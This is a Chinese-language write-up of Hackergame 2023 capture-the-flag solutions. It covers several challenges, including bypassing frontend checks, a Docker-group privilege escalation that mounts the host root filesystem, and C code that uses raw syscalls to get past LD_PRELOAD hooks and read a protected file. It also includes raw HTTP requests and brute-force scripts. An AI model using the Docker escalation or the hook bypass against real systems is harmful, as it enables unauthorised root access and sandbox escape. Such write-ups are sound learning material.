






## Hackergame 启动

Hackergame启动！发现校验相似度是在前端校验的，然后通过url传参相似度，传递个100过去就拿到flag了


## 更深更暗

在main.js里有一段生成flag的代码，在控制台中调用就好了

```js
    async function getFlag(token) {
        // Generate the flag based on user's token
        let hash = CryptoJS.SHA256(`dEEper_@nd_d@rKer_${token}`).toString();
        return `flag{T1t@n_${hash.slice(0, 32)}}`;
    }
```

```js
async function getFlag(token) {
        // Generate the flag based on user's token
        let hash = CryptoJS.SHA256(`dEEper_@nd_d@rKer_${token}`).toString();
        return `flag{T1t@n_${hash.slice(0, 32)}}`;
    }
getFlag(localStorage.token)
```


## 猫咪小测


```

1. 想要借阅世界图书出版公司出版的《A Classical Introduction To Modern Number Theory 2nd ed.》，应当前往中国科学技术大学西区图书馆的哪一层？（30 分）
12
暴力破解

2. 今年 arXiv 网站的天体物理版块上有人发表了一篇关于「可观测宇宙中的鸡的密度上限」的论文，请问论文中作者计算出的鸡密度函数的上限为 10 的多少次方每立方秒差距？（30 分）
23

https://arxiv.org/abs/2303.17626


3. 为了支持 TCP BBR 拥塞控制算法，在编译 Linux 内核时应该配置好哪一条内核选项？
CONFIG_TCP_CONG_BBR

https://github.com/google/bbr/blob/master/Documentation/bbr-quick-start.md


4. 🥒🥒🥒：「我……从没觉得写类型标注有意思过」。在一篇论文中，作者给出了能够让 Python 的类型检查器 MyPY mypy 陷入死循环的代码，并证明 Python 的类型检查和停机问题一样困难。请问这篇论文发表在今年的哪个学术会议上？（20 分）
提示：会议的大写英文简称，比如 ISCA、CCS、ICML。

ECOOP
https://drops.dagstuhl.de/opus/volltexte/2023/18237/pdf/LIPIcs-ECOOP-2023-44.pdf


好耶学会怎么搜索论文了,Google hacker语法，萃取关键词，然后按时间筛选缩小范围
```





## 赛博井字棋

简单玩了一下，发现怎么打都是平局，后面在想能不能在敌方棋子位置下棋，用burp suite发送了一下，发现可以，后端没有判断格子上面是否有棋子，覆盖敌方棋子后就拿到flag了，也可以用两个浏览器来操作


```
flag{I_can_eat_your_pieces_41065ba433}
```


## 组委会模拟器

这道题消息都是在span标签中的，只需要把span枚举一次，用正则匹配，然后再模拟点击就好了

```
function findAndClickSpan() {

  const regex = /hack\[[^\]]*\]/;

  const spans = document.getElementsByTagName('span');

  Array.from(spans).forEach((span) => {
    if (regex.test(span.textContent)) {
      console.log('匹配的span元素:', span);

      span.click();
    }
  });
}
setInterval(findAndClickSpan, 1000);
```

```
flag{Web_pr0gra_mm1ng_5a17e089a1_15fun}
```


## 虫

查询了一下无线传输图片的方法，sstv这个协议

https://mp.weixin.qq.com/s?__biz=MzU3ODc2NTg1OA==&mid=2247485349&idx=1&sn=7bdfed472158dc2378113361ee9556a6&chksm=fd7112e8ca069bfe1b3da839050f8bebc5c1c166ac82f3326e634779ce1f55f45897968c9922&token=9197758&lang=zh_CN#rd

可以用rx sstv这个软件还原图片，需要先装个虚拟声卡然后用rx sstv监听，还原就好了



```
flag{SSssTV_y0u_W4NNa_HaV3_4_trY}
```


## HTTP 集邮册[差一个]

1 获取第一个 flag 需要收集 5 种状态码；

1 200 get请求一个存在的目录 

2 400 请求格式错误 随便乱输入一些东西

3 404 请求一个不存在的目录 

4  405 Bad Request 服务器那边不支持post，直接post

```
POST / HTTP/1.1\r\n
Host: example.com\r\n\r\n
```

5 505 http版本不受支持

```
GET / HTTP/10.1\r\n
Host: example.com\r\n\r\n
```

2  nginx 返回首行无状态码的响应（不计入收集的状态码中）；

只要不带上http的版本号，服务器那边就不会相应状态相关的信息

```
GET / \r\n
Host: example.com\r\n\r\n
```

```
flag{d1d you hear the HTTP packet from 1991?}
```

草，这个flag

## Git? Git!

不太熟悉git，在搜索后发现，撤销这个操作本身也算是一个提交，也会记录到日志当中，然后我去翻了下项目文件，发现log文件下有一个reset的操作，这里应该是指"撤销"吧，查询了一会资料后发现有一个git show hash的命令，可以查看这个操作具体做了什么事情

```
0000000000000000000000000000000000000000 15fd0a13eb46c39f34cfc0dfb4757ad23a23d026 PRO-2684 <54608551+PRO-2684@users.noreply.github.com> 1698306875 +0800	clone: from https://github.com/dair-ai/ML-Course-Notes.git
15fd0a13eb46c39f34cfc0dfb4757ad23a23d026 505e1a3f446c23f31807a117e860f57cb5b5bb79 some_english_postgraduate <some_english_postgraduate@none-exist.com> 1698307060 +0800	commit: Trim trailing spaces
505e1a3f446c23f31807a117e860f57cb5b5bb79 15fd0a13eb46c39f34cfc0dfb4757ad23a23d026 some_english_postgraduate <some_english_postgraduate@none-exist.com> 1698307092 +0800	reset: moving to HEAD~
15fd0a13eb46c39f34cfc0dfb4757ad23a23d026 ea49f0cd3d36edb2965f89581b11151959d20991 some_english_postgraduate <some_english_postgraduate@none-exist.com> 1698307103 +0800	commit: Trim trailing spaces
```

```
git show 505e1a3f446c23f31807a117e860f57cb5b5bb79
```

后找到撤销的flag

```
flag{TheRe5_@lwAy5_a_R3GreT_pi1l_1n_G1t}
```


## Docker for Everyone

X 是实验室机器的管理员，为了在保证安全的同时让同学们都用上 docker，他把同学的账号加入了 docker 用户组，这样就不需要给同学 sudo 权限了！

但果真如此吗？

去查询了一下后发现，Docker守护程序的访问权限是没有限制的，在docker容器中，可以具有和宿主机相同的权限，那能不能把flag给搬到容器里面，查询了一下后发现有一条挂载数据卷的命令可以实现这个操作

```
docker run -v /:/tmp/ -it alpine /bin/sh
```

cat flag发现有些问题，ls -al看了下是一个软链接，进到这个链接的目录下cat flag

```
/tmp/dev/shm # cat flag
```

得到flag

```
flag{u5e_r00t1ess_conta1ner_1d94c2e3ce_plz!}
```


## JSON ⊂ YAML?

第一问

根据这段话，可以分析出第一问的本质是在问yaml1.1和yaml1.2有什么区别，去学习了一下yaml，和json有些相似，由键值对，列表，还有块三种结构组合成的一种组织数据的语言。

```
小 Z 听闻这番言论后当场表示怀疑，立刻说出了一个字符串，JSON 和 YAML 解析出的含义存在差异。小 W 研究了一番才发现，这是因为很多主流的 YAML 库仍然是 YAML 1.1 的，它没有这个性质。他不得不承认：「好吧，这个性质只适用于 YAML 1.2。」
```

https://stackoverflow.com/questions/21584985/what-valid-json-files-are-not-valid-yaml-1-1-files

可以参考这篇文章，咱的payload是

```
123e100000
```

在yaml1.1中，这个表达式会被解析成科学计数法，json中会被解析成字符串


第二问

搜了半天，终于搜到解决方法了



```
{"name": "John Doe", "age": 25, "name": "Jonathan Doe"}
```


## 奶奶的睡前 flag 故事

咱是笨蛋，去问了newbing好久，后面用010edit打开后发现有两个iend尾，然后联想到系统都没有心思升级，截图，谷歌亲儿子这些关键词，联想到截图漏洞，尾部的像素块没有被截断

去搜索了一下发现这个网站可以还原图片

https://acropalypse.app/




## 🪐 高频率星球

[asciinema](https://asciinema.org/)

这个软件录制的文件，把录制的文件导出来，发现是一个js的文件，尾部显示运行这个文件能得到flag，但是录制出来的文件有太多终端颜色的符号还有切页符号

```
asciienma cat xxxx > output.txt
```

```
\033\[[\x30-\x3f]*[\x40-\x7e]
```

用这个正则清理掉大多数符号后，手工清理了一下，然后拿到flag

```
node output.js
```

```
flag{y0u_cAn_ReSTorE_C0de_fr0m_asc11nema_3db2da1063300e5dabf826e40ffd016101458df23a371}
```


## 🪐 低带宽星球[差一个]

压缩至 2KiB (2048 字节) 及以下、

https://github.com/meowtec/Imagine 这个项目能压缩图片到2kb以下，提交图片后获得flag

```
flag{A1ot0f_t0015_is_available_to_compre55_PNG}
```


## 🪐 流式星球

这道题的难点有两个，一个是不知道宽高，原始宽高不是10的倍数，以及有个随机数切片，很容易想到质因数分解，然后爆破一百次，把所有可能都试一遍，但是结果都不太行，手工试了一下，找出三个能看出规整图形的尺寸，640 * 620 1280 * 768 2560 * 1440，能看到规整图形了，发现是bang dream it's mygo的视频，flag在字幕的位置，第二个难点是flag每帧都有随机一行被混淆，然后字体的原因flag看不太清楚，最后把相似的数字枚举了了一遍，才拿到flag

```
import cv2
import numpy as np
import os


def restore_video(input_file, output_folder, frame_width, frame_height):

    with open(input_file, "rb") as f:
        buffer = np.fromfile(f, dtype=np.uint8)

    if len(buffer) % 3 != 0:
        buffer = buffer[:-(len(buffer) % 3)]

    missing_pixels = (frame_width * frame_height * 3) - (len(buffer) % (frame_width * frame_height * 3))
    buffer = np.concatenate([buffer, np.zeros(missing_pixels, dtype=np.uint8)])

    frame_count = len(buffer) // (frame_width * frame_height * 3)
    buffer = buffer.reshape((frame_count, frame_height, frame_width, 3))

    if not os.path.exists(output_folder):
        os.makedirs(output_folder)

    for i in range(frame_count):
        frame = buffer[i].astype(np.uint8)
        filename = os.path.join(output_folder, f"frame_{i:04d}.png")
        cv2.imwrite(filename, frame)


if __name__ == "__main__":
    restore_video("video.bin", "output_frames", 640, 620)

```

```
flag{it-could-be-easy-to-restore-video-with-haruhikage-even-without-metadata-0F7968CC}
```


## 🪐 小型大语言模型星球

you are smart

qaq这个模型太笨了，试了好多句子才试出来了



## 为什么要打开 /flag 😡[差一个]

好耶，在hackergame上第一个binary题

### LD_PRELOAD

去搜索了一下什么是ld_preload，ld_preload是linux上的一个环境变量，程序运行的时候根据ld_preload选择使用什么动态链接库

这里使用了/stage1.so 这个动态链接库

```python
import subprocess
import base64
import os

STAGE = os.environ["STAGE"]
assert STAGE in ("1", "2")

if __name__ == "__main__":
    binary = input("Base64 of binary: ")
    with open("/dev/shm/executable", "wb") as f:
        f.write(base64.b64decode(binary))
    with open("/dev/shm/executable", "rb") as f:
        if f.read(4) != b"\x7fELF":
            print("不是 ELF 文件")
            exit(1)
    os.chmod("/dev/shm/executable", 0o555)
    if STAGE == "1":
        output = subprocess.run(
            ["/dev/shm/executable"],
            stdin=subprocess.DEVNULL,
            stdout=subprocess.PIPE,
            stderr=subprocess.PIPE,
            user="nobody",
            group="nogroup",
            env={
                "LD_PRELOAD": "/stage1.so"
            }
        )
```

大概看了一遍stage1.so，发现和io相关的操作和io不相关但是能间接读flag的函数都被hook了，要么是return一个fake flag要么是 return 0，想了各种的方法，后面突然联想到这些io的操作本质上不就是系统调用吗，那我用内联汇编，去syscall，模拟这些读的操作不就好了

```c
#include <unistd.h>
#include <sys/syscall.h>
#include <sys/types.h>
#include <stdio.h>
#include <stdlib.h>
#include <fcntl.h>

int main() {
    int fd;
    ssize_t nread;
    char buf[1024];

    // 使用系统调用打开文件
    asm("syscall"
        : "=a" (fd)
        : "0"(SYS_open), "D"("./flag"), "S"(O_RDONLY)
        : "rcx", "r11", "memory");

    if (fd < 0) {
        perror("open");
        return EXIT_FAILURE;
    }

    // 使用系统调用读取文件内容
    asm("syscall"
        : "=a" (nread)
        : "0"(SYS_read), "D"(fd), "S"(buf), "d"(sizeof(buf))
        : "rcx", "r11", "memory");

    if (nread == -1) {
        perror("read");
        asm("syscall"
            :
        : "a"(SYS_close), "D"(fd)
            : "rcx", "r11", "memory");
        return EXIT_FAILURE;
    }

    // 输出文件内容
    fwrite(buf, 1, nread, stdout);

    // 使用系统调用关闭文件
    asm("syscall"
        :
    : "a"(SYS_close), "D"(fd)
        : "rcx", "r11", "memory");

    return EXIT_SUCCESS;
}
```

得到flag

```
flag{nande_ld_preload_yattano_a46091dfa1}
```


## 惜字如金

咱是用枚举的方法，枚举一遍

```python
from itertools import product

# Constants
ROW1 = "nymeh1niwemflcir}echaet"
ROW2 = "a3g7}kidgojernoetlsup?h"
ROW3 = "ulw!f5soadrhwnrsnstnoeq"
ROW4 = "ct{l-findiehaai{oveatas"
ROW5 = "ty9kxborszstguyd?!blm-p"
VOWEL = {'a', 'e', 'i', 'o', 'u'}
CONSONANT = {'b', 'c', 'd', 'f', 'g', 'h', 'j', 'k', 'l', 'm', 'n', 'p', 'q', 'r', 's', 't', 'v', 'w', 'x', 'y', 'z', '!', '?', '-', '{', '}'}
TABLE = [53, 41, 85, 109, 75, 1, 33, 48, 77, 90, 17, 118, 36, 25, 13, 89, 90, 3, 63, 25, 31, 77, 27, 60, 3, 118, 24, 62, 54, 61, 25, 63, 77, 36, 5, 32, 60, 67, 113, 28]

def add_variance(ori_str):
    variances = set()
    for i, c in enumerate(ori_str):
        if c in CONSONANT:
            variances.add(ori_str[:i+1] + 'e' + ori_str[i+1:])
            variances.add(ori_str[:i+1] + c + ori_str[i+1:])
    return list(variances)

def rev_get_str(str):
    return ''.join(str[TABLE[i] % len(str)] for i in range(len(TABLE)))

def is_format(str):
    return str.startswith("flag{") and str.endswith('}')

rows_variances = [add_variance(ROW1), add_variance(ROW2), add_variance(ROW3), add_variance(ROW4), add_variance(ROW5)]

count = 0
answers = set()
for variances in product(*rows_variances):
    s = ''.join(variances)
    rev = rev_get_str(s)
    if is_format(rev) and rev not in answers:
        answers.add(rev)
        print(rev)
        count += 1


print(count)
```

